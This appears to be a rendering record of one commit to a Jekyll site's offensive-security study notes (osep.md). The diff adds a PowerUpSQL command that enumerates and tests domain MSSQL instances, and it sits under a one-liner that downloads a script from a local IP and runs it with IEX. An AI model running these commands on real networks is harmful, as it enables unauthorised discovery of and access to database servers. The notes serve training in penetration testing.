

Before and after one commit to wez3/wez3.github.io, a Jekyll site: the page built from osep.md, in a window 1280 px wide and 900 px high, scrolled down 7028 px. Shown: the whole window, without its empty margins (211-1068 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update osep.md

````diff
--- a/osep.md
+++ b/osep.md
@@ -314,6 +314,11 @@ CREATE ASSEMBLY my_assembly FROM 0x4D7A..... WITH PERMISSION_SET = UNSAFE;
 Load PowerUpSQL
 ```powershell
 (new-object system.net.webclient).downloadstring('http://192.168.1.1/PowerUpSQL.ps1') | IEX
+```
+
+Get all accessible domain MSSQL's
+```
+Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10
 ```
 
 Enum database users
````
